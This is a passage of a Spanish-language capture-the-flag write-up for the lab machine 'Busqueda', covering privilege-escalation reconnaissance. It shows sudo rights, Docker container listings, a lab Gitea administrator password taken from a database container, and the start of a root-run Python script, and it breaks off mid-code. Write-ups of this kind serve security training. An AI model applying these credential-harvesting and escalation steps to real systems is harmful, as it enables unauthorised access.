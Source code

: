 ```
svc@busqueda:~$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

Al ejecutarlo, vemos que recibe varios argumentos:

```
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

Si vemos los contenedores de docker podemos ver varios:

```
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS       PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   3 months ago   Up 3 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   3 months ago   Up 3 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

Al ver el contenido del contenedor ```mysql_db```, podemos ver unas credenciales:

![](/assets/img/busqueda/busqueda6.png)

En donde la contraseña de gitea es: ```yuiu1hoiu4i5ho1uh``` y el usuario ```administrator```

Una vez iniciados sesion en gitea y navegando un poco, encontre el script que estabamos ejecutando:

```python
#!/bin/bash
import subprocess
import sys

actions = ['full-checkup', 'docker-ps','docker-inspect']

def run_command(arg_list):
    r = subprocess.run(arg_list, capture_output=True)
    if r.stderr:
        output = r.stderr.decode()
    else:
        output = r.stdout.decode()

    return output


def process_action(action):
    if action == 'docker-inspect':
        try:
            _format = sys.argv[2]
```